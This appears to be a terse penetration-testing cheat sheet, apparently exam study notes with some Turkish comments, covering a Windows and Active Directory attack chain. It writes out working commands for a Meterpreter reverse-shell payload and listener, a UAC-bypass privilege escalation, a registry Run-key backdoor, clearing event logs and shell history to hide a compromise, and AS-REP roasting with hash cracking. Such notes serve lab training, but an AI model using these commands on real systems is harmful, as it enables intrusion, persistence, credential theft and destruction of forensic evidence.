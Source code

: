 user::hash >> hash.txt >> john hash.txt>> pass crack

**Remote system using Revshell gen:**  **docker run -d -p 80:80 reverse_shell_generator**

**Command listening:** msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.250.1.6; set lport 8888; exploit”

**Create payload :** msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.250.1.6 LPORT=8888 -f exe -o reverse.exe

 

### **PRIV ESC**

msfconsole >> **search bypassuac** >>  **use exploit/windows/local/bypassuac_fodhelper >> set session id**

### Persistence

Persistence by modify Registry run keys 

**command:** reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\file-name.exe

### Clear logs to Hide evidence  of comprimise

**Windows clear log**

clear log bat event view: **\Clear_Event_Viewer_Logs.bat**.

**command log enum:** wevtutil el “el” params list enum logs name
**Command clear log:** wevtutil cl SYTEM … VB “cl” param clear log 
**Command wipe:** cipher /w:C  cipher  command to overwrite deleted files or folder. “/w: Folder path”

**Linux clear log**

**~/.bash_history in clear command:** history -c

shred ~/.bash_history  dosyayı güvenli silme  üzerine yazarak

## Active directory attack

Command nmap scan:  nmap 12.10.1.0/24

**target domain**: 12.10.1.23 open services: ldap,kerberos-sec …

**Enum AD service:** nmap -A -sC -sV 12.10.1.23 >> domain and forest name

**DC ASREP Attack**

DC server User disabled Pre auth detection and attack (**DONT_REQUIRE_PREAUTH** ) detect

**Asrep attack tools**: sudo su >> root home >> impacket>>examples >> python3 [GetNPUsers.py](http://getnpusers.py/) site.[com/](http://ceh.com/) -no-pass -usersfile /root/ADtools/users.txt -dc-ip **10.10.1.22 >> pre auth** disabled user NTLM hash obtain >> john --wordlist=/root/ADtools/rockyou.txt hash.txt

**ASREP hashcat crack:** hashcat -m 18200 -a 0 hashes_asrep.txt /root/ADtools/rockyou.txt  “--show parola göster”

